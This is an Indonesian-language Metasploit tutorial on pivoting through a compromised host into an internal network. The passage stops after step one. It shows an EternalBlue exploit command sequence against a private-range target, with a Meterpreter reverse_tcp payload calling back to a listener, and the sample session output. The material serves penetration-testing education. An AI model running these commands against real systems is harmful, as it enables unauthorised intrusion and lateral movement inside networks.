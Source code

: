 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Post-Exploitation%20di%20Metasploit.md">Post-Exploitation di Metasploit</a>
</p>

# Pivoting dan Route Command di Metasploit

## A. Apa Itu Pivoting?

[Pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting) adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

Ada dua jenis pivoting:
- Layer 3 pivoting (routing) -> menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (`ARP spoofing`, `bridge`) -> biasanya dilakukan dengan tools seperti [ettercap](https://www.ettercap-project.org/) atau [bettercap](https://www.bettercap.org/).

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

   Contoh:

   ```
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOSTS 192.168.1.10
   set RPORT 445
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.5
   set LPORT 4444
   exploit
   ```

   Kalau hasil output-nya seperti ini:

   ```
   [+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses ke mesin pertama.

### 2. Tambahkan Route Internal dengan `autoroute`
